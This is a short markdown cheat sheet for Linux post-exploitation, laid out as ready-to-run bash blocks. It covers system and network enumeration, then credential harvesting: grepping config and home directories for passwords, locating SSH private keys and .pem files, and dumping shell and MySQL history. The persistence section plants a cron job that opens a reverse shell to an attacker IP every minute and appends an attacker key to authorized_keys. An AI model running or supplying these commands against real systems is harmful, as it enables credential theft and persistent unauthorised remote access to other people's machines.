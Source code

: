 ### Linux Post-Exploitation

#### System Information Gathering
```bash
# Basic system info
uname -a
cat /etc/os-release
whoami
id
groups

# Network configuration
ifconfig -a
ip addr show
netstat -antup
ss -tulpn

# Process enumeration
ps aux --forest
ps -eo pid,user,command
```

#### Credential Harvesting
```bash
# Search for passwords in files
grep -r -i "password" /etc/ /var/ /home/ 2>/dev/null
find / -name "*password*" -type f 2>/dev/null
find / -name "*.conf" -type f -exec grep -l "password" {} \; 2>/dev/null

# SSH keys
find / -name "authorized_keys" 2>/dev/null
find / -name "id_rsa*" 2>/dev/null
find / -name "*.pem" 2>/dev/null

# History files
cat ~/.bash_history
cat ~/.mysql_history
find /home -name ".*history" -exec cat {} \; 2>/dev/null
```

#### Persistence Mechanisms
```bash
# Cron jobs (authorized environments only)
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'" | crontab -

# SSH key persistence
mkdir -p ~/.ssh
echo "<public_key>" >> ~/.ssh/authorized_keys

# Service persistence
# Create systemd service (complex - document thoroughly)
```
